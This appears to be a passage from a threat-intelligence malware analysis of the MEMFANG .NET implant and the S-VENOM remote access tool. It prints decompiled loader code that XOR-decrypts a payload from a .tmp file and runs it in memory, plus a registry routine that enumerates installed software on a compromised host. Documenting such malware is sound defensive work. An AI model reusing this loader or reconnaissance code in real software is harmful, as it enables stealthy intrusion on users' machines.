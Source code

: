 ## MEMFANG

MEMFANG is a .NET implant that is embedded inside SNAKEBITE and deployed directly in-memory via Starfighters. Using a DynamicInvoke call, it sideloads the DLL file to decrypt and load the payload, inside a randomly named encrypted .tmp file.

The decryption mechanism utilizes the first 32 bytes of the data in the .tmp file to perform a byte-wise XOR. This results in the decrypted assembly stored in “array2” which is then loaded and executed in memory.

```{javascript}
static Program()
{
	byte[] array = File.ReadAllBytes(Path.Combine(Path.GetDirectoryName(Assembly.GetExecutingAssembly().Location), "LwBFLmM.tmp".Trim()));
	byte[] array2 = new byte[array.Length - 32];
	Buffer.BlockCopy(array, 32, array2, 0, array2.Length);
	for (int i = 0; i < array2.Length; i++)
	{
		byte[] array3 = array2;
		int num = i;
		array3[num] ^= array[i % 32];
	}
	Program._assembly = Assembly.Load(array2);
}
```

## S-VENOM

The decrypted payload injected into memory by MEMFANG implant acts as a Remote Access Tool for the operators. The RAT, identified as S-VENOM by Ebryx, is modular in nature and has several functionalities to collect information from the compromised host. This collected information is relayed back to the command and control server by means of a custom-developed web client.

Following information is collected by the S-VENOM post-intrusion:

### Enumerate Installed Software

S-VENOM traverses over the registry key, _‘Software\Microsoft\Windows\CurrentVersion\Uninstall’_, to find all installed applications on the system with a valid uninstallation path.

```{javascript}
using (RegistryKey registryKey = Registry.LocalMachine.OpenSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Uninstall"))
{
    foreach (string name in registryKey.GetSubKeyNames())
    {
        using (RegistryKey registryKey2 = registryKey.OpenSubKey(name))
        {
	if (registryKey2 != null)
	{
		string text = registryKey2.GetValue("DisplayName") as string;
if (text != null)
{
    jsonWriter.WriteStartObject();
    jsonWriter.WritePropertyName("Name");
    jsonWriter.WriteValue(text);
    jsonWriter.WritePropertyName("Version”);
    jsonWriter.WriteValue(registryKey2.GetValue("DisplayVersion"));
    jsonWriter.WriteEndObject();
}
	}
       }
}
```
